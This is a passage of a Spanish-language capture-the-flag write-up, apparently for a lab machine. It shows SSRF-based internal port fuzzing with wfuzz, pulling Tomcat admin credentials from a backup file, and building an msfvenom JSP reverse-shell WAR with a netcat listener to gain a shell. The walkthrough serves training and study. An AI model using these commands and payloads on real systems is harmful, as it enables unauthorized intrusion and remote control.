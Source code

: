 ```bash
wfuzz -c -t 200 --hh=2 --hc=404 -z range,1-65535 "http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ"
```

Aqui vemos muchos puertos addicionales que no nos reporto el scanning de NMAP como los puertos

- 320
- 90
- 888
- 110
- 200
- 3306 (mysql)

Verificamos estos puertos con la web y encontramos cosas muy interesante como un panel de administracion en el puerto 320 y un listador
de ficheros en el puerto 888. Encontramos un fichero backup y lo miramos desde la web `http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup`
y mirando el codigo fuente encontramos informaciones muy interesante en el XML. Vemos un usuario admin y su contraseña.

Como vemos que el fichero XML es un fichero de configuracion tomcat miramos si las credenciales son validas en el servicio del puerto 8080
## Vuln exploit & Gaining Access {-}

### Conneccion en el panel de administracion de Tomcat {-}

Como todos los servicios tomcat, el panel de administracion se encuentra en la routa `/manager/html`

lo miramos en la url `http://10.10.10.55:8080/manager/html`

Una vez ganado el accesso al panel de administracion de tomcat, ya savemos que podemos subir un **war**
malicioso.

```bash
msfvenom -l payload | grep "jsp"
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

subimos el fichero en la web.

Nos ponemos en escucha con netcat por el puerto 443

```bash
nc -nlvp 443
```

Pinchamos el fichero reverse.war y vemos que ya hemos ganado acceso al systema

```bash
whoami

> tomcat
```

### Tratamiento de la TTY {-}
